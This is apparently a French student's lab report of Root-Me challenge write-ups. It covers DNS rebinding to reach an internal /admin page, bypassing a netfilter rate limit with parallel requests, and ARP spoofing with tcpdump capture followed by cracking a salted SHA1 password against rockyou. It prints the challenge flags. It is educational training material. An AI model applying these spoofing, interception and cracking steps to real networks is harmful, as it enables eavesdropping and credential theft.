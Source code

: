 # TP6 : Un peu de root-me

## I. DNS Rebinding

🌞 **Write-up de l'épreuve**

## Découverte du challenge

Nous sommes confrontés à un serveur qui récupère le contenu d'une URL qui lui est envoyée. Nous devons réussir à récupérer ce qu'affiche la page `/admin`

## Détail de l'attaque

On peut effectuer une attaque DNS rebinding. On a besoin d'un serveur DNS avec un TTL très bas, voire nul. Cela nous permettra de suivre la procédure suivante :

1. Envoi de l'URL avec un nom de domaine choisi pour l'attaque.
2. Le serveur vérifie la localité du nom de domaine fourni. À ce stade, le DNS renvoie une adresse IP publique.
3. Le serveur effectue une requête GET vers l'URL avec le nom de domaine fourni. Le DNS renvoie 127.0.0.1 lorsqu'il reçoit la demande de résolution.

## Résolution de l'attaque

J'ai utilisé ce service de DNS rebinding : [https://lock.cmpxchg8b.com/rebinder.html](https://lock.cmpxchg8b.com/rebinder.html).

Nous créons un nom de domaine pour résoudre les adresses IP suivantes : 127.0.0.1 et 216.58.215.46.

J'obtiens l'adresse IP de google grace à cette commande :
```
fmaxance@ZeyKiiPC:~$ wget --spider google.com
Spider mode enabled. Check if remote file exists.
--2023-12-07 11:48:48--  http://google.com/
Resolving google.com (google.com)... 216.58.215.46, 2a00:1450:4007:808::200e
Connecting to google.com (google.com)|216.58.215.46|:80... connected.
```

Le nom de domaine obtenu : `7f000001.d83ad72e.rbndr.us`

On envoi ensuite au site web l'URL suivante à récupérer :
`http://7f000001.d83ad72e.rbndr.us:54022/admin`

Sans oublier de préciser le port `54022` et la page `/admin`

## Conclusion de l'attaque

En résumé, l'utilisation du DNS rebinding, avec l'aide d'un service accessible comme [https://lock.cmpxchg8b.com/rebinder.html](https://lock.cmpxchg8b.com/rebinder.html), permet de contourner les restrictions imposées par le serveur. En créant un nom de domaine spécifique, on réussi à faire en sorte que le serveur pense que la requête provient de localhost, nous permettant ainsi d'accéder au flag.

## II. Netfilter erreurs courantes

🌞 **Write-up de l'épreuve**

## Découverte du challenge

Le défi impliquait la récupération des règles d'un pare-feu d'un serveur web et de trouver des failles dans la configuration. Nous devons réussir à récupérer le `flag`

## Détail de l'attaque

En analysant ces règles, on remarque l'utilisation de l'option --limit-burst dans la règle du pare-feu, ce qui limite le nombre de requêtes autorisées.
```
IP46T -A INPUT-HTTP -m limit —limit 3/sec —limit-burst 20 -j DROP
IP46T -A INPUT-HTTP -j ACCEPT
```

## Résolution de l'attaque

Pour contourner cette limitation, on utilise des threads en Python pour effectuer simultanément 22 requêtes vers le serveur. Chaque thread initie une connexion HTTP vers le port spécifié et affiche uniquement la dernière réponse reçue, évitant ainsi d'attendre les autres réponses.

Voici le code utilisé :
[netfilter](netfilter.py)

## Conclusion de l'attaque

Finalement, on réussi à obtenir le flag en exploitant les limitations du pare-feu.

## III. ARP Spoofing Ecoute active

🌞 **Write-up de l'épreuve**

## Découverte du challenge

Le défi impliquait la récupération d'informations confidentielles qui transitent sur un réseau donné. On a donc accès à un LAN via une machine qu'on contrôle. Nous devons réussir à récupérer deux `flag`. La concaténation de la réponse à une requête sur le réseau, ainsi que le mot de passe de la base de données forme le bon mot de passe de l'épreuve.

## Détail de l'attaque

On commence par faire un scan du réseau afin de comprendre quelle machine existe et quel service tourne. On installe donc quelque outil utile `nmap, netools, iproute2, iputils-ping`.

```
	Nmap scan report for 172.18.0.1
	Host is up (0.000033s latency).
	MAC Address: 02:42:A8:F3:06:A5 (Unknown)
	Nmap scan report for db.arp-spoofing-dist-2_default (172.18.0.3)
	Host is up (0.000031s latency).
	MAC Address: 02:42:AC:12:00:03 (Unknown)
	Nmap scan report for client.arp-spoofing-dist-2_default (172.18.0.4)
	Host is up (0.000039s latency).
	MAC Address: 02:42:AC:12:00:04 (Unknown)
	Nmap scan report for fac50de5d760 (172.18.0.2)
	Host is up.
```

On découvre deux machines :

`db.arp-spoofing-dist-2_default (172.18.0.3)` avec le port 3306 ouvert qui fait tourner `mysql`

`client.arp-spoofing-dist-2_default (172.18.0.4)` avec aucun port ouvert.

---

On install par réflexe `mysql-client`

On essaye donc de se connecter à la DB :
`mysql -h 172.18.0.3`

Logique ça demande un mdp qu'on a pas...
On peut alors se diriger vers un `ARP Spoofing` pour capturer des trames sur le réseau entre les deux machines (d'ou le titre de l'épreuve ARP Spoofing Ecoute active)

On install l'outil `dsniff` puis on lance un ARP Spoofing :

```
arpspoof -t 172.18.0.4 172.18.0.3
arpspoof -t 172.18.0.3 172.18.0.4
```

Puis on scan le réseau afin de réaliser un dump des trames capturé, on install l'outil `tcpdump` :

```
tcpdump -nn -n -v 'not host 195.7.117.146' -w io.pcap
```

On peut du coup logiquement check le fichier `io.pcap` en temps réel afin de détécter si on capture un nombre de trame au dessus de deux par deux. Car logiquement on envoi 2 trames par 2 trames avec l'arpspoof. DONC si on voit que dans l'incrémentation on voit un `+3` C'EST qu'on a choppé un truc intéréssant. On utilise `tail` :

```
tail -f io.pcap
```

Une fois ça finis on copy en ssh ce fichier afin de l'analyser sur notre machine perso avec wireshark :

```
scp -P 22222 root@ctf15.root-me.org:/root/io.pcap .
```

En analysant les trames capturer on trouve rapidement dans les data le premier flag : `l1tter4lly_4_c4ptur3_th3_fl4g`

Puis on trouve aussi le Password !
Ahaha c'est un hash...

`33e8f543f1995475aab52f424b1333d3e3bb8b06`

Bon bah go chercher le bonne outil pour comprendre ce truc, sachant qu'un hash est par définition à sens unique donc irréverssible. MAIS on peut comparer ce hash avec des hash d'une wordlist afin de renvoyer le bon mot derrière.

On s'aperçoit vite qu'il y a du SEL au début de ce hash pour maximiser la sécu et faire en sorte que rien ne se ressemble mais en cherchant le bonne outil on tombe sur ce GitHub :
https://github.com/kazkansouh/odd-hash

On a donc ces infos :

    salt1 : "#Yp'?7." soit "235970273f375c2e" en héxa
    
    salt2 : "}Q?&\034`>Nt_uX" soit "7d513f261c603e4e745f7558" en héxa

    Double salt hex : 235970273f375c2e7d513f261c603e4e745f7558

On a tout pour utiliser l'outil plus haut :

```
fmaxance@ZeyKiiPC:~/Repo/RootMe/Wordlists$ odd-crack 'hex(sha1_raw($p)+sha1_raw($s.sha1_raw(sha1_raw($p))))' --salt hex:235970273f375c2e7d513f261c603e4e745f7558 rockyou.txt 33e8f543f1995475aab52f424b1333d3e3bb8b06
[*] loading file...
[*] found heyheyhey=33e8f543f1995475aab52f424b1333d3e3bb8b06
[*] all hashes found, shutdown requested
[*] done, tried 4700 passwords
```

ET BIM ! Le mdp c'est `heyheyhey`

On fait donc la concaténation du premier flag et de ce mdp et on a le flag entier : `l1tter4lly_4_c4ptur3_th3_fl4g:heyheyhey`

## Conclusion de l'attaque

Pour conclure, le défi ARP Spoofing Ecoute active consistait à récupérer des informations confidentielles sur un réseau. Après avoir identifié deux machines, une attaque ARP Spoofing a été utilisée pour capturer des trames réseau. 

En analysant ces trames, on découvre le premier flag et un mot de passe hashé. En déchiffrant le mot de passe avec l'outil odd-hash, on obtient le mot de passe heyheyhey. 

La concaténation du premier flag avec ce mot de passe a donné le flag final : l1tter4lly_4_c4ptur3_th3_fl4g:heyheyhey.